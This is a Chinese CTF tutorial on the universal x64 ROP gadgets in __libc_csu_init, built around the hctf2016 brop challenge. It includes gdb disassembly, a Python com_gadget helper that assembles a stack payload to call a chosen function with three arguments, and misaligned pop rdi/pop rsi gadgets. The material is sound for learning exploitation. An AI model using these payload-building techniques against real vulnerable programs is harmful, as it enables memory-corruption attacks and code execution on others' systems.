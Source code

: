 # 通用 gadget


## __libc_csu_init()
我们知道在程序编译的过程中，会自动加入一些通用函数做初始化的工作，这些初始化函数都是相同的，所以我们可以考虑在这些函数中找到一些通用的 gadget，在 x64 程序中，就存在这样的 gadget。x64 程序的前六个参数依次通过寄存器 rdi、rsi、rdx、rcx、r8、r9 进行传递，我们所找的 gadget 自然也是针对这些寄存器进行操作的。

函数 `__libc_csu_init()` 用于对 libc 进行初始化，只要程序调用了 libc，就一定存在这个函数。由于每个版本的 libc 都有一定区别，这里的版本如下：
```
$ file /usr/lib/libc-2.26.so 
/usr/lib/libc-2.26.so: ELF 64-bit LSB shared object, x86-64, version 1 (GNU/Linux), dynamically linked, interpreter /usr/lib/ld-linux-x86-64.so.2, BuildID[sha1]=f46739d962ec152b56d2bdb7dadaf8e576dbf6eb, for GNU/Linux 3.2.0, not stripped
```
下面用 6.1 pwn hctf2016 brop 的程序来做示范，使用 `/r` 参数可以打印出原始指令的十六进制：
```
gdb-peda$ disassemble /r __libc_csu_init
Dump of assembler code for function __libc_csu_init:
   0x00000000004007d0 <+0>:     41 57   push   r15
   0x00000000004007d2 <+2>:     41 56   push   r14
   0x00000000004007d4 <+4>:     49 89 d7        mov    r15,rdx
   0x00000000004007d7 <+7>:     41 55   push   r13
   0x00000000004007d9 <+9>:     41 54   push   r12
   0x00000000004007db <+11>:    4c 8d 25 16 06 20 00    lea    r12,[rip+0x200616]        # 0x600df8
   0x00000000004007e2 <+18>:    55      push   rbp
   0x00000000004007e3 <+19>:    48 8d 2d 16 06 20 00    lea    rbp,[rip+0x200616]        # 0x600e00
   0x00000000004007ea <+26>:    53      push   rbx
   0x00000000004007eb <+27>:    41 89 fd        mov    r13d,edi
   0x00000000004007ee <+30>:    49 89 f6        mov    r14,rsi
   0x00000000004007f1 <+33>:    4c 29 e5        sub    rbp,r12
   0x00000000004007f4 <+36>:    48 83 ec 08     sub    rsp,0x8
   0x00000000004007f8 <+40>:    48 c1 fd 03     sar    rbp,0x3
   0x00000000004007fc <+44>:    ff 15 f6 07 20 00       call   QWORD PTR [rip+0x2007f6]        # 0x600ff8
   0x0000000000400802 <+50>:    48 85 ed        test   rbp,rbp
   0x0000000000400805 <+53>:    74 1f   je     0x400826 <__libc_csu_init+86>
   0x0000000000400807 <+55>:    31 db   xor    ebx,ebx
   0x0000000000400809 <+57>:    0f 1f 80 00 00 00 00    nop    DWORD PTR [rax+0x0]
   0x0000000000400810 <+64>:    4c 89 fa        mov    rdx,r15
   0x0000000000400813 <+67>:    4c 89 f6        mov    rsi,r14
   0x0000000000400816 <+70>:    44 89 ef        mov    edi,r13d
   0x0000000000400819 <+73>:    41 ff 14 dc     call   QWORD PTR [r12+rbx*8]
   0x000000000040081d <+77>:    48 83 c3 01     add    rbx,0x1
   0x0000000000400821 <+81>:    48 39 dd        cmp    rbp,rbx
   0x0000000000400824 <+84>:    75 ea   jne    0x400810 <__libc_csu_init+64>
   0x0000000000400826 <+86>:    48 83 c4 08     add    rsp,0x8
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret    
End of assembler dump.
```
从中提取出两段（必须以ret结尾），把它们叫做 part1 和 part2：
```
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret
```
```
   0x0000000000400810 <+64>:    4c 89 fa        mov    rdx,r15
   0x0000000000400813 <+67>:    4c 89 f6        mov    rsi,r14
   0x0000000000400816 <+70>:    44 89 ef        mov    edi,r13d
   0x0000000000400819 <+73>:    41 ff 14 dc     call   QWORD PTR [r12+rbx*8]
   0x000000000040081d <+77>:    48 83 c3 01     add    rbx,0x1
   0x0000000000400821 <+81>:    48 39 dd        cmp    rbp,rbx
   0x0000000000400824 <+84>:    75 ea   jne    0x400810 <__libc_csu_init+64>
   0x0000000000400826 <+86>:    48 83 c4 08     add    rsp,0x8
   0x000000000040082a <+90>:    5b      pop    rbx
   0x000000000040082b <+91>:    5d      pop    rbp
   0x000000000040082c <+92>:    41 5c   pop    r12
   0x000000000040082e <+94>:    41 5d   pop    r13
   0x0000000000400830 <+96>:    41 5e   pop    r14
   0x0000000000400832 <+98>:    41 5f   pop    r15
   0x0000000000400834 <+100>:   c3      ret
```
part1 中连续六个 pop，我们可以通过布置栈来设置这些寄存器，然后进入 part2，前三条语句（r15->rdx、r14->rsi、r13d->edi）分别给三个参数寄存器赋值，然后调用函数，这里需要注意的是第三句是 r13d（r13低32位）给 edi（rdi低32位）赋值，即使这样我们还是可以做很多操作了。

另外为了让程序在调用函数返回后还能继续执行，我们需要像下面这样进行构造：
```
pop rbx     #必须为0
pop rbp     #必须为1
pop r12     #函数地址
pop r13     #edi
pop r14     #rsi
pop r15     #rdx
ret         #跳转到part2
```

下面附上一个可直接调用的函数：
```python
def com_gadget(part1, part2, jmp2, arg1 = 0x0, arg2 = 0x0, arg3 = 0x0):
    payload  = p64(part1)   # part1 entry pop_rbx_pop_rbp_pop_r12_pop_r13_pop_r14_pop_r15_ret
    payload += p64(0x0)     # rbx be 0x0
    payload += p64(0x1)     # rbp be 0x1
    payload += p64(jmp2)    # r12 jump to
    payload += p64(arg1)    # r13 -> edi    arg1
    payload += p64(arg2)    # r14 -> rsi    arg2
    payload += p64(arg3)    # r15 -> rdx    arg3
    payload += p64(part2)   # part2 entry will call [r12+rbx*0x8]
    payload += 'A' * 56     # junk 6*8+8=56
    return payload
```

上面的 gadget 是显而易见的，但如果有人精通汇编字节码，可以找到一些比较隐蔽的 gadget，比如将指定一个位移点再反编译：
```
gdb-peda$ disassemble /r 0x0000000000400831,0x0000000000400835
Dump of assembler code from 0x400831 to 0x400835:
   0x0000000000400831 <__libc_csu_init+97>:     5e      pop    rsi
   0x0000000000400832 <__libc_csu_init+98>:     41 5f   pop    r15
   0x0000000000400834 <__libc_csu_init+100>:    c3      ret    
End of assembler dump.
```
```
gdb-peda$ disassemble /r 0x0000000000400833,0x0000000000400835
Dump of assembler code from 0x400833 to 0x400835:
   0x0000000000400833 <__libc_csu_init+99>:     5f      pop    rdi
   0x0000000000400834 <__libc_csu_init+100>:    c3      ret    
End of assembler dump.
```
`5e` 和 `5f` 分别是 `pop rsi` 和 `pop rdi` 的字节码，于是我们可以通过这种方法轻易地控制 `rsi` 和 `rdi`。

在 6.1 pwn hctf2016 brop 的exp中，我们使用了偏移后的 `pop rdi; ret`，而没有用 `com_gadget()` 函数，感兴趣的童鞋可以尝试使用它重写exp。

除了上面介绍的 `__libc_csu_init()`，还可以到下面的函数中找一找：
```
_init
_start
call_gmon_start
deregister_tm_clones
register_tm_clones
__do_global_dtors_aux
frame_dummy
__libc_csu_init
__libc_csu_fini
_fini
```
总之，多试试总不会错。


## 参考资料
- [一步一步学 ROP 系列](https://github.com/zhengmin1989/ROP_STEP_BY_STEP)
